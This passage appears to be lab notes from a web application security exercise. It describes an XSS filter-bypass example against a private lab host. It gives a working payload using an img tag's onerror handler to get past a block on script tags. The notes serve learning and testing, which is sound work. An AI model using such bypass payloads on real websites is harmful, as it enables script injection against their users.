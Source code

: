 !<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413134847.png" width="600"/>
---

## Example 4 - `<script>` Workaround

`172.16.219.145/xss/example4.php?name=hacker`
- no matter what the developer blocks `<script>` in URL

### Payload
`?name=<img src=/ onerror="alert('XSS')">`
- there are many ways to bypass this in JS, here we use the `<img` tag
